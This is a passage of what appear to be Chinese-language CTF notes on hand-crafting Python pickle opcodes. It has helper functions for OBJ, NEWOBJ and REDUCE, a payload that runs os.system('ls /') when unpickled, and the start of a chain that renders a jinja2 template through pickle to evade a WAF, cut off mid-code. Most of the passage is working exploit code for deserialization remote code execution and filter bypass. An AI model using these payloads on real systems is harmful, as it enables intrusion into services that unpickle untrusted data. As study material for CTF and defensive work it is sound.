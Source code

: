 	  
	  def pickle_obj(
	      clazz: PickleOpcode, arguments: t.Iterable[PickleOpcode]
	  ) -> PickleOpcode:
	      """构造对象，如：
	  
	      pickle_obj(
	          pickle_stack_global(
	              pickle_string("BINSTRING", "__main__"), pickle_string("BINSTRING", "A")
	          ),
	          [],
	      )
	  
	      也可以用于调用函数
	      """
	      return b"(" + clazz + b"".join(arguments) + b"o"
	  
	  
	  def pickle_newobj(clazz: PickleOpcode, tpl: PickleOpcode) -> PickleOpcode:
	      """构造对象，其中clazz只能是一个类，不能是一个函数。这一点和OBJ不同"""
	      return clazz + tpl + b"\x81"
	  
	  
	  def pickle_newobjex(
	      clazz: PickleOpcode, args: PickleOpcode, kwargs: PickleOpcode
	  ) -> PickleOpcode:
	      """构造对象，输入args是一个tuple，kwargs是一个字典
	      其中clazz只能是一个类，不能是一个函数。这一点和OBJ不同"""
	      return clazz + args + kwargs + b"\x92"
	  
	  
	  def pickle_reduce(func: PickleOpcode, tpl: PickleOpcode) -> PickleOpcode:
	      return func + tpl + b"R"
	  
	  
	  # import os
	  # tpl = ("echo executed")
	  # os.syste,(*tpl)
	  opcode = (
	      pickle_inst([pickle_string("BINSTRING", "ls /")], "os", "system") + b"."
	  )
	  opcode += b"."
	  opcode = add_pickle_header(opcode) # 可加可不加
	  # pickletools.dis(opcode)
	  # print(waf(opcode))
	  # print(pickle.loads(opcode))
	  ```
	- 使用例
		- `jinja2.Template(xxx).render()`
			- 然后就可以用焚靖绕WAF了
			- ```python
			  template_opcode = pickle_obj(
			      pickle_global("jinja2", "Template"), [pickle_string("BINSTRING", "{{1+1}}")]
			  )
			  renderfunc_opcode = pickle_obj(
			      pickle_global("builtins", "getattr"),
			      [
			          template_opcode,
			          pickle_string("BINSTRING", "render"),
